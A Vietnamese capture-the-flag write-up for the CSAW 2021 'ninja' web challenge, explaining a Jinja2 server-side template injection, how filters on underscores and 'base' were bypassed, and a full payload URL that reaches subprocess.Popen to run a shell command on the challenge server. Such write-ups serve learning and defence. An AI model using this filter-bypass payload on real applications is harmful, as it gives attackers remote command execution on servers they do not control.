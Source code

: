```yaml
---
tag:
    - ctf
---
```

# csaw21-ctf

## ninja

Đầu tiên, khi vào chúng ta có duy nhất một URL dẫn đến một Page. Page này cho phép ta nhập tên và render ra lời chào tới tên đó. Lỗ hổng dễ nhận ra đó là SSTI tương tự bài [Templated](https://ctf.d3s34.me/hackthebox/challenge/templated).&#x20;


![screenshot-from-2021-09-13-01-38-25.png](./csaw21-ctf/M4VBc7cfP.png)

Cách exploit tương tự bài Templated ở trên tuy nhiên, chúng ta bị filter các keyword cho là nguy hiểm...

![screenshot-from-2021-09-11-11-28-20.png](./csaw21-ctf/F7Z8R0KUy.png)

&#x20;Vậy là chúng ta bị filter `_` và `base`. Cần tìm được cách bypass được các filter này. Mình tìm được bài [này](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) và bài [này](https://0day.work/jinja2-template-injection-filter-bypasses/). Nên chúng ta có các quy tắc thay thế sau:&#x20;

* Sử dụng `attr()` để gọi các `attribute` của tham số.
* Các tham số được truyền thông qua `|` tương tự pipeline.
* Ký tự `_` được thay thế bằng `\x5f`
* Khi tham chiếu đến các phần tử thì sử dụng `__getitem()__` _thay cho `[ ]`_

Và do từ khóa `base` bị filter nên đương nhiên ta sẽ dùng qua MRO.


![screenshot-from-2021-09-11-11-25-24.png](./csaw21-ctf/gSd1pU1s0.png)

Ở bài Templated thì mình có dùng slice để tìm được class `Popen` nhanh nhưng ở đây tìm phép thay thế có vẻ mất thời gian nên mình có học theo bài trên medium là dùng Python để tìm index bằng cơm :v

```python
file = open("lol.txt", "r")
    lst = file.read().split(",")
    for index, value in enumerate(lst):
        if value.find("Popen") != -1:
            print(index, value)
```

&#x20;Tìm được index rồi thì pass tham số vào thôi!

Payload đầy đủ sẽ như sau

```python
http://web.chal.csaw.io:5000/submit?value={""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")(2)|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(258)("cat flag.txt",shell=True,stdout=-1)|attr("communicate")()}}
```
